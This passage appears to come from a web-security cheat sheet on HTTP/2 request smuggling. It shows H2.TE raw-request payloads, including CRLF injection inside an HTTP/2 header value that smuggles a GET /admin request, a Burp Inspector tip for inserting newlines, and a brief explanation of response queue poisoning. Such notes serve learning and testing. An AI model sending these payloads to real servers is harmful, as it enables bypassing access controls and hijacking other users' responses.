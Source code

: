 ### H2.TE

```http
POST / HTTP/2
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: vulnerable-website.com
Foo: x
```

## Request smuggling via CRLF injection

In HTTP/2 messages `\r\n` no longer has any special significance within a header value and, therefore, can be included inside the value itself without causing the header to be split. when this is rewritten as an HTTP/1 request, the `\r\n` will once again be interpreted as a header delimiter. As a result, an HTTP/1 back-end server would see two distinct headers.

E.g. with **H2.TE**

```http
POST / HTTP/2
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
foo: \r\nTransfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: vulnerable-website.com
Foo: x
```

{{< hint style=notes >}}
**Note**: to inject newlines into HTTP/2 headers, in burp use the Inspector to drill down into the header, then press the `Shift + Return` keys.
{{< /hint >}}

## Response queue poisoning

{{< details summary="Theory (in short)" >}}

When you smuggle a complete request, the front-end server processes a single request, but the back-end sees two requests and sends two responses. The front-end forwards the first response correctly but queues the unexpected second response. When a new request arrives, the front-end mistakenly sends the leftover response from the smuggled request, leaving the correct back-end response unmatched. This cycle repeats, disrupting the response flow for subsequent requests.

{{< /details >}}
